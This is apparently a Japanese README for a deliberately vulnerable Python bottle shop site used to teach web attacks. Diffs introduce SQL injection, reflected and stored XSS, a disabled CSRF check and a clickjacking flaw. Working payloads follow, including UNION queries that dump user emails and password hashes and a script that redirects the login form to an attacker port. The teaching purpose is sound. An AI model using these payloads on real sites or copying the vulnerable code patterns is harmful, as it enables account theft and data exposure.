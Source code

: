 # bottle-store
 EC site example using Python bottle.

## 事前準備
Windowsの場合

```console
set STORE_SECRET_KEY=<署名付きcookieのための鍵（文字列）>
```

# SQL Injection

```diff:app.py
-        results = cur.execute("SELECT * FROM rated_products WHERE name LIKE ?;", ("%" + query + "%",)).fetchall()
+        results = cur.execute("SELECT * FROM rated_products WHERE name LIKE %'" + query + "%'").fetchall()
```

```
http://localhost:8080/products?q='
```

```
http://localhost:8080/products?q='--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, tbl_name, 1, 1, 1, 1 FROM sqlite_master--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, id, email, 1, hashed_password, nickname FROM users--
```

# Reflected XSS

```diff:app.py
-<p style="color:red;"> {{ message }} </p>
+<p style="color:red;"> {{ !message }} </p>
```

```
http://localhost:8080/login?message=<s>hello</s>
```

```
http://localhost:8080/login?message=<script>window.onload=function(){document.querySelector('form').action='http://localhost:8081/users'}</script>
```

# CSRF and Persistent XSS

```diff:app.py
-    if form_token != cookie_token:
-        abort(400, '不正なアクセスです。')
+    #if form_token != cookie_token:
+    #    abort(400, '不正なアクセスです。')
```

```
http://localhost:8081/evil_game1
```

```diff:app.py
-        <li>{{ comment }}</li>
+        <li>{{ !comment }}</li>
```

```
http://localhost:8081/evil_game2
```

# Clickjacking

```diff:app.py
-    response.headers['X-Frame-Options'] = 'DENY'
+   response.headers['X-Frame-Option'] = 'DENY'
```

```
http://localhost:8081/evil_game3
```

# DOM based XSS

